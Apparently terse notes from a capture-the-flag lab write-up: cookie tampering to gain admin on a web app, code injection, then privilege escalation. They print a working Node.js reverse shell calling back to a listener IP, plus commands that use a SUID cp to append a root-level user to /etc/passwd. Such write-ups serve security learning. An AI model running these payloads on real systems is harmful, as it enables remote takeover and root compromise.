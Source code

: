 - Web application has mentions of the vulnerability patching on port 3000
- Created a user account and inspected the cookies.
- Changed the value to admin and base64 encoded it then visited the post a message
- Tried posting 2+2 which comes as a 4
- Entered the Reverse shell into it

```nodejs
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
- Escalation was simple linpeas away cp suid.
```bash
cat /etc/passwd > passwd.bak
```

```bash
echo hacker:$((mkpasswd -m SHA-512 myhackerpass || openssl passwd -1 -salt mysalt myhackerpass || echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> passwd.bak 
```

```bash
/bin/cp passwd.bak /etc/passwd
```

```bash
su hacker
```
